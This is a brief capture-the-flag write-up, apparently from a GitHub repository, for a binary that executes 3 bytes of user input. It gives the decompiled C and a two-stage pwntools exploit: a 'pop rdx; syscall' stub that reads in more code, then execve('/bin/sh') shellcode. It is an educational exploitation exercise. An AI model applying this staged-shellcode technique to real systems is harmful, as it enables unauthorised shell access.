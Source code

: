 In this challenge the main do a read with only 3 bytes:
```c
undefined8 main(void)

{
  code *shellcode;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);

  shellcode = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,shellcode,3);
  (*shellcode)();
  return 0;
}
```
But in GDB we can notice that just doing a "pop rdx" as first stage this will create the right envirorment for doing a read, so reading the shellcode for spawning a shell:
```python
input("stage_1")
asm_code="""
pop rdx
syscall
"""
shellcode=asm(asm_code)
r.send(shellcode)
input("stage_2")
asm_code= """
mov rdi, rsi
add rdi, 25
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
"""
shellcode = asm(asm_code)
stri=b"/bin/sh\00"
payload=b"aaa"+shellcode+b"/bin/sh\00"
r.send(payload)
```
notice that we have to put some padding before sending the stage 2 because we have to put our shellcode just after the stage 1 in order to be executed.